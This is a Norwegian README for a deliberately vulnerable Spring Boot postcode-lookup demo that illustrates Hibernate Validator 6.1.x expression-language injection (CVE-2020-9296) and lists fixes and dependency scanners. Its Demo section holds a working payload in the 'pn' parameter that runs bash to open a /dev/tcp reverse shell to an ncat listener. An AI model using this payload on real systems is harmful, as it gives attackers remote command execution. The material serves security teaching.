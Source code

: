 # postnr-sb
Enkelt innbrudd i Java Spring Boot server vha. Hibernate Validator 6.1.x

## Byging og kjøring

Applikasjonen bygges og kjøres med maven:

```shell
mvn spring-boot:run
```

## API

### GET /postnr

Søk i databasen over postnummer med en GET mot /postnr. Søket tar inntil fire parametre.

| Parameter | Betydning | Type | 
--- | --- | --- |
| pn | Postnummer | Numerisk |
| ps | Poststed | | Streng |
| kn | Kommunenr | Numerisk |
| k | Kommunenavn | Streng |

Ex:
```shell
curl -s localhost:8080/postnr?pn=5230
```

Resultatet er en liste av poststeder som matcher søkekriteriene:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```

### POST /postnr

Søk i databasen over postnummer med en POST mot /postnr. Søket tar inn et JSON-objekt på samme format som resultatet. Ingen av feltene er påkrevd. De feltene som er med, påvirker søket.

Hvis `kommunenr` eller `postnr` er angitt, må disse være numeriske.

Ex:
```shell
jq --null-input "{postnr:5230}" > pnOk.json
curl -s -X POST -H "Content-Type:application/json" -d @pnOk.json http://localhost:8080/postnr | jq
```

Resultatet er en liste av poststeder identisk med GET-søket over:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```

### Feilhåndtering

Ved ugyldig innputt, vil begge endepunktene returnere en liste av feilmeldingsobjekter.

For eksempel, vil
```shell
curl -s localhost:8080/postnr?pn=Bergen | jq
```

returnere beskjed om at `pn` krever numerisk innputt:
```json
[
  {
    "property": "search.q.postnr",
    "message": "Fikk 'Bergen' der numerisk verdi var forventet."
  }
]
```

## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn spring-boot:run`
3. `curl -vv -G --data-urlencode 'pn=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/192.168.10.138/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

Merk at IP-adressen i terminal 3 må matche IP-adressen til lokal maskin.

I terminal 1 kan man nå skrive vanlige bash-kommandoer og eksekvere dem på maskinen som kjører i terminal 2.

Punkt 3 kan også utføres med POST:
```shell
curl -s -X POST -H "Content-Type:application/json" -d @pnError.json http://localhost:8080/postnr | jq
```

## Kommentarer

Feilen er med i Hibernate Validator opp tom. 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

Netflix: https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/

## Strategier

For å oppdage slike ting, bør en av de følgende vurderes. Den første er gratis, resten er abonnementsbasert. Snyk har noe gratis.

* OWASP Maven Plugin (https://owasp.org/www-project-dependency-check/)​
* Snyk (https://snyk.io/)​
* Nexus IQ (https://help.sonatype.com/iqserver)​
* Whitesource (https://www.whitesourcesoftware.com/)​
* Black Duck (https://www.synopsys.com/software-integrity/security-testing/software-composition-analysis.html)​


### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med https://start.spring.io/. Jeg har valgt Java 17 og lagt til 'Validation' og 'Spring Web'. I den genererte pom.xml, er så versjonen av spring-boot-starter-parent nedgradert til 2.4.13, siden 2.5.0 bruker Hibernate Validator 6.2.x. Merk at 2.4.13 er fra novemer 2021.

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/